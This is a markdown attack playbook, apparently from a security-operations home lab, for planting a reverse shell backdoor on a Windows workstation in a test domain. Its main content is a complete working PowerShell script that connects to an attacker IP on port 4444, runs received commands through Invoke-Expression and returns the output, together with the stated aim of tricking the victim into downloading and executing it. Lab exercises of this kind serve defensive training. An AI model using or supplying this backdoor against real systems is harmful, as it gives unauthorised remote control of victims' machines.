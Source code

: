# Reverse Shell Backdoor Attack Playbook

## Overview

- **Target:** Windows Workstation (SOC.LAB domain)
  - **IP Address:** 192.168.10.20
  - **Domain:** SOC.LAB

- **Attacker:** Kali Linux
  - **IP Address:** 192.168.20.30

## Objective

The objective of this attack is to create a malicious PowerShell script that establishes a reverse shell backdoor. The attacker will then make the victim download and execute the payload, allowing full control of the target machine. This exercise demonstrates how to achieve persistence and execute arbitrary commands on the Windows workstation.

## Attack Execution Timeline

### 1. **Create Malicious PowerShell Payload**

The first step was to create the malicious PowerShell script (`malicious.ps1`) that would initiate a reverse shell connection back to the attacker. The payload was as follows:

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.20.30", 4444)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)

# Send a message to confirm the connection
$writer.WriteLine("Connected to backdoor!")
$writer.Flush()

while ($true) {
    # Receive command from the attacker
    $command = $reader.ReadLine()
    
    # If the command is "exit", close the connection
    if ($command -eq "exit") {
        break
    }
    
    # Execute the command on the Windows machine and capture output
    $output = Invoke-Expression $command 2>&1
    
    # Send the output back to the attacker
    $writer.WriteLine($output)
    $writer.Flush()
}

# Close the connection
$client.Close()
